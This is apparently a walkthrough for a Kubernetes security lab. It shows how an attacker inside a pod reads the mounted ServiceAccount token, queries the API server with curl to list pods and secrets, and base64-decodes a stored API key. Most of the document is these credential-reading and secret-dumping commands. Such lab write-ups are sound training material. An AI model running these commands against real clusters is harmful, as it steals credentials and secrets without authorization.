

## 🎉 Solution & Walkthrough

### 🎲 Method 1

:::info

This deployment has a custom `ServiceAccount` mapped with an overly permissive policy/privilege. As an attacker, we can leverage this to gain access to other resources and services.

:::

* By default the Kubernetes stores all the tokens and service accounts information in the default place, navigate to there to find the useful information

```bash
cd /var/run/secrets/kubernetes.io/serviceaccount/
```

```bash
ls -larth
```


* Now we can use this information to query and talk to the Kubernetes API service with the available permissions and privileges

* To point to the internal API server hostname, we can export it from environment variables

```bash
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

* To set the path to the `ServiceAccount` token

```bash
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

* To set the namespace value

```bash
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

* To read the `ServiceAccount` bearer token

```bash
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
````

* To point the `ca.crt` path so that we can use it while querying in the `curl` requests

```bash
export CACERT=${SERVICEACCOUNT}/ca.crt
```

* Now we can explore the Kubernetes API with the token and the constructed queries

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```


* To query the available secrets in the `default` namespace run the following command

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```


* To query the secrets specific to the namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```


* To query the pods in the specific namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods
```


:::tip

From here you can try and leverage all the possible Kubernetes operations. As Kubernetes itself works as an API service to create, and delete pods, etc.

:::

* Get the `k8svaulapikey` value from the secrets

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```



* We can decode the base64 encoded value using the following command

```bash
echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
```